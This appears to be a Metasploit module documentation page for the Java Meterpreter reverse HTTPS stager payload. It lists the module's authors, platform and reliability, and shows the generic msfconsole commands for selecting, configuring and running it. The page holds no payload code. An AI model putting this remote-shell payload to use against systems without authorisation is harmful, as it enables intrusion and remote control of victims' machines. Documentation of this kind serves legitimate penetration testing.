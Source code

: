 ## Java Meterpreter, Java Reverse HTTPS Stager

Run a meterpreter server in Java. Tunnel communication over 
HTTPS


## Module Name
payload/java/meterpreter/reverse_https

## Authors
* mihi
* egypt
* OJ Reeves
* hdm





## Platforms
* java

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/java/meterpreter/reverse_https
msf payload(reverse_https) > show targets
   ... a list of targets ...
msf payload(reverse_https) > set TARGET <target-id>
msf payload(reverse_https) > show options
   ... show and set options ...
msf payload(reverse_https) > run
```
    
    